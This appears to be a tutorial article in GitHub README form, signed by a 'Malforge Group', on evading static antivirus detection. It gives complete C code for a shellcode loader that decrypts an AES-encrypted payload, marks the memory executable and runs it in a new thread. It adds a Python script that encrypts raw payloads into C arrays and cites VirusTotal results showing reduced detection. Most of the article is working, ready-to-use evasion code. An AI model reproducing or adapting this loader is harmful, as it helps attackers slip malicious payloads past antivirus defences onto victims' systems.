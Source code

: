 # Antivirus Evasion with AES Encryption

## Introduction

Welcome to this article! Today, we will explore a technique to evade antivirus (AV) detection using AES encryption. This method primarily targets static AV engines by encrypting the shellcode. As a result, static analysis fails to identify the payload as malicious. However, note that dynamic detection might still flag the payload during execution — handling dynamic detection will be discussed in future articles.

The concept is straightforward: the malicious payload is encrypted with AES, making it unreadable to static AV scanners. Only at runtime does the executable decrypt and run the payload, at which point dynamic AVs could still detect it. Nonetheless, this technique successfully bypasses static detection mechanisms.

![image](https://github.com/user-attachments/assets/1fe56867-3d9b-4afc-8928-608a7288847c)

## What is AES Encryption?

You can read more about AES [here](https://cybernews.com/resources/what-is-aes-encryption/).

In short, AES (Advanced Encryption Standard) is a symmetric encryption algorithm, meaning it uses the same key for both encryption and decryption. It operates using a Substitution-Permutation Network (SPN) model and multiple encryption rounds, making it extremely secure.

**Advantages of AES:**
- Relatively simple to understand and implement.
- Very fast encryption and decryption speeds.
- Strong security due to multiple rounds of transformation.
  
![image](https://github.com/user-attachments/assets/cd41e428-2a1d-4543-a7ab-5456ea65d39f)

## Code Example

Here is the C code used in this demonstration:

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>

int AESDecrypt(char *payload, unsigned int payload_len, char *key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)) {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}

int main(void) {
    void *exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    char key[] = { /* your AES key */ };
    unsigned char calc_payload[] = { /* your encrypted payload */ };
    unsigned int calc_len = sizeof(calc_payload);

    // Allocate memory
    exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decrypt payload
    AESDecrypt((char *)calc_payload, calc_len, key, sizeof(key));

    // Copy decrypted payload to allocated memory
    RtlMoveMemory(exec_mem, calc_payload, calc_len);

    // Change memory protection to executable
    rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    // Execute the payload
    if (rv != 0) {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

### Functions Overview

- **main**: Allocates memory, decrypts the AES-encrypted payload, moves it to executable memory, changes permissions, and executes it.
- **AESDecrypt**: Handles AES decryption using the provided key.

### Payload Encryption Python Script

To encrypt your payload, you can use the following Python script:

```python
import sys
from Crypto.Cipher import AES
from os import urandom
import hashlib

KEY = urandom(16)

def pad(s):
    return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def aesenc(plaintext, key):
    k = hashlib.sha256(key).digest()
    iv = 16 * '\x00'
    plaintext = pad(plaintext)
    cipher = AES.new(k, AES.MODE_CBC, iv)
    return cipher.encrypt(bytes(plaintext, 'latin1'))

try:
    plaintext = open(sys.argv[1], "r").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = aesenc(plaintext, KEY)
print('AESkey[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in KEY.decode('latin1')) + ' };')
print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext.decode('latin1')) + ' };')
```

This script:
- Randomly generates an AES key.
- Pads the raw payload.
- Encrypts the payload.
- Outputs C arrays for the AES key and encrypted payload.

Usage:

![image](https://github.com/user-attachments/assets/fbb856d9-26e1-4f11-9b07-b4fe7994fae2)

## Proof of Concept (POC)

To test the payloads, VirusTotal was used:

- **Without AES encryption:** Many AV engines detected the payload.

  ![image](https://github.com/user-attachments/assets/41297594-b74b-4b95-9e60-18b56765c052)

- **With AES encryption:** Static AV detections were significantly reduced.

  ![image](https://github.com/user-attachments/assets/9d336f03-56c3-4d0a-bc86-616fc3a14e02)

## Conclusion

Using AES encryption helps bypass static antivirus detection by hiding the raw payload from basic scanning engines. However, dynamic detection still remains a challenge and will be tackled in future discussions.
Thanks for reading!

— **Malforge Group**

---
